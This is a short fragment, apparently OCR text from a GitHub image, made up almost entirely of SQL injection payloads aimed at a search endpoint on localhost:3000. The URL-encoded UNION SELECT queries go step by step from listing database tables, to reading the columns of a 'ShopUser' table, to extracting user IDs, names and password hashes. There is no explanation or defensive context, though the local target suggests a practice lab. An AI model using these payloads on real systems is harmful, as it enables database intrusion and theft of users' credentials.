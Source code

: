 " order by itemStock --

http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%201,%20table_name,%201,%201%20FROM%20information_schema.tables%20%20--%20

http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%201,%20column_name,%201,%201%20FROM%20information_schema.columns%20where%20table_name%20=%22ShopUser%22%20%20--%20


http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%20userID,%20userHash,%20userName,%201%20FROM%20ShopUser%20%20--%20